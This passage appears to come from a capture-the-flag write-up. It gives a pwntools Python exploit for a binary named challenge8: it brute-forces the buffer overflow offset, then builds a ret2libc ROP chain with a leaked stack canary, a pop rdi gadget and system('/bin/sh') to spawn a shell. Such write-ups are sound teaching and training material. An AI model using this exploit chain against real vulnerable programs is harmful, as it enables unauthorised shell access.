 After `Canary`, we need to put an 8 byte value for `stack alignment`. Also, we need to add to `pop rdi` gadget the base address of the binary. 

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge8" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF("./libc.so.6") 

LOCAL = False

prompt = ">"

def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A")
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.5)
    
    # If the exit code == -6 (SIGABRT)
    if r.poll() == -6:
      if i%8==0:
        print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i), "green"))
        r.close()
        return i
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()
  exit()

def ret2libc(r, prompt, offset, canary):
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft payload to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0] + e.address
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef) # alignment value
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi + 1)
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()
```